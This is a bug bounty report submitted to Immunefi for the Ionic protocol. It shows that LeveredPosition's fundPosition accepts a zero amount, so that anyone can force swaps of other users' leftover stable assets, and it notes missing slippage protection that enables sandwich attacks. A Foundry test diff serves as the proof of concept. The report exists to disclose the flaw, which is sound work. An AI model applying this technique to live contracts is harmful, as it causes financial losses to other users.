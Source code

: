 
# The attackers can convert other people's stable assets in their positions into collateral assets

Submitted on Sat Jun 15 2024 13:41:27 GMT-0400 (Atlantic Standard Time) by @p0wd3r for [IOP | Ionic](https://immunefi.com/bounty/ionic-iop/)

Report ID: #32240

Report type: Smart Contract

Target: https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPosition.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
The attacker can swap the stableAsset in other normal users' positions into collateralAsset at zero cost, and the attacker can choose to perform the swap at an unfavorable price, causing unnecessary losses to the users.

## Vulnerability Details
`fundPosition` allows anyone to call it, then calls `_supplyCollateral` to convert all balances of `fundingAsset` into `collateralAsset`.

https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPosition.sol#L56-L58
```solidity
  function fundPosition(IERC20Upgradeable fundingAsset, uint256 amount) public {
    fundingAsset.safeTransferFrom(msg.sender, address(this), amount);
    _supplyCollateral(fundingAsset);
```

https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPosition.sol#L360-L372
```solidity
  function _supplyCollateral(IERC20Upgradeable fundingAsset) internal returns (uint256 amountToSupply) {
    // in case the funding is with a different asset
    if (address(collateralAsset) != address(fundingAsset)) {
      // swap for collateral asset
      convertAllTo(fundingAsset, collateralAsset);
    }

    // supply the collateral
    amountToSupply = collateralAsset.balanceOf(address(this));
    collateralAsset.approve(address(collateralMarket), amountToSupply);
    uint256 errorCode = collateralMarket.mint(amountToSupply);
    if (errorCode != 0) revert SupplyCollateralFailed(errorCode);
  }
```

https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPosition.sol#L475-L479
```solidity
  function convertAllTo(IERC20Upgradeable inputToken, IERC20Upgradeable outputToken)
    private
    returns (uint256 outputAmount)
  {
    uint256 inputAmount = inputToken.balanceOf(address(this));
```

As `fundPosition`'s `amount` parameter can be 0, the attacker can swap the `stableAsset` in the position into `collateralAsset` without transferring any assets.

After `_leverDown`, there will be stableAsset in the position, and this part of stableAsset can be maliciously converted by the attacker.

https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPosition.sol#L446-L456
```solidity
    // all the redeemed collateral is swapped for stables to repay the FL
    uint256 stableLeftovers = stableAsset.balanceOf(address(this));
    if (stableLeftovers > 0) {
      uint256 borrowBalance = stableMarket.borrowBalanceCurrent(address(this));
      if (borrowBalance > 0) {
        // whatever is smaller
        uint256 amountToRepay = borrowBalance > stableLeftovers ? stableLeftovers : borrowBalance;
        stableAsset.approve(address(stableMarket), amountToRepay);
        stableMarket.repayBorrow(amountToRepay);
      }
    }
```

## Impact Details
The attacker can swap the stableAsset in other normal users' positions into collateralAsset at zero cost, and the attacker can choose to perform the swap at an unfavorable price, causing unnecessary losses to the users.

Currently, some swap strategies in the code do not have slippage protection set, such as the following UniswapV3. This gives attackers an opportunity to use this vulnerability to launch a sandwich attack. However, since the strategy is not within the scope of this audit, it is only mentioned as a reminder here.

https://github.com/ionicprotocol/contracts/blob/development/contracts/liquidators/UniswapV3Liquidator.sol#L37-L48
```solidity
    outputAmount = swapRouter.exactInputSingle(
      ISwapRouter.ExactInputSingleParams(
        address(inputToken),
        _outputToken,
        fee,
        address(this),
        block.timestamp,
        inputAmount,
        0,
        0
      )
    );
```

## References
- https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPosition.sol#L56-L58
- https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPosition.sol#L360-L372
- https://github.com/ionicprotocol/contracts/blob/development/contracts/ionic/levered/LeveredPosition.sol#L446-L456

        
## Proof of concept
## Proof of Concept
```
git diff contracts/test/LeveredPositionTest.t.sol
```

```
diff --git a/contracts/test/LeveredPositionTest.t.sol b/contracts/test/LeveredPositionTest.t.sol
index a168276..1147711 100644
--- a/contracts/test/LeveredPositionTest.t.sol
+++ b/contracts/test/LeveredPositionTest.t.sol
@@ -412,6 +412,15 @@ abstract contract LeveredPositionTest is MarketsTest {
       assertApproxEqRel(leverageRatioRealized, targetLeverDownRatio, 3e16, "target lever down ratio not matching");
     }

+    // stable balance not 0
+    assertGt(stableAsset.balanceOf(address(position)), 0, "!stable balance");
+    address attacker = makeAddr("attacker");
+    vm.startPrank(attacker);
+    position.fundPosition(stableAsset, 0);
+    vm.stopPrank();
+    // stable balance becomes 0 after attack
+    assertEq(stableAsset.balanceOf(address(position)), 0, "!stable balance");
+
     uint256 withdrawAmount = position.closePosition();
     emit log_named_uint("withdraw amount", withdrawAmount);
     assertApproxEqRel(startingEquity, withdrawAmount, 5e16, "!withdraw amount");
```

```
forge test --mc 'ModeWethUSDCLeveredPositionTest' --mt 'testLeverMaxDown' -vv

Ran 1 test for contracts/test/LeveredPositionTest.t.sol:ModeWethUSDCLeveredPositionTest
[PASS] testLeverMaxDown() (gas: 8587125)
Logs:
  max ratio: 1885965990226138759
  min ratio: 1017680934425441558
  withdraw amount: 99433174923569350

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 146.84s (28.98s CPU time)

Ran 1 test suite in 147.06s (146.84s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```